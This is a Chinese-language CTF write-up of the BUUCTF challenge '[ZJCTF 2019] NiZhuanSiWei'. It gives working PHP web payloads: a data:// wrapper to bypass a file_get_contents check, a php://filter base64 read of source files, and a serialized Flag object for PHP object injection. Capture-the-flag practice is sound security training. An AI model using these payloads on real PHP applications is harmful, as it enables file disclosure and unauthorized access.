







BUUCCTF-Web-[ZJCTF 2019]NiZhuanSiWei1
本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，发现一段源码，需要进行代码审计了，

1 |
|
大概分析需要绕过两关:（后面发现flag的输出点在反序列化那里）
1.绕过file_get_contents($text,’r’)，我们并不知道哪个文件内容是需要的字符串；
2.反序列化password
绕过file_get_contents($text,’r’)
payload:
1 | ?text=data://text/plain,welcome to the zjctf |
data://协议允许直接在URL中嵌入数据，text/plain指定了数据的MIME类型
当使用data://text/plain,welcome to the zjctf作为text参数时：file_get_contents()会直接从data URL读取内容
返回的内容正好是 “welcome to the zjctf”，满足条件判断

根据提示，使用php的filter协议查看useless.php源码，
payload：
1 | ?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php |

base64解码

刚好是我们反序列化需要的类，只需要触发__tostring魔术方法就行了，
1 |
|

将输出结果赋值给password
最终payload:
1 | ?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} |


查看源码获得flag
本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来源 半枫！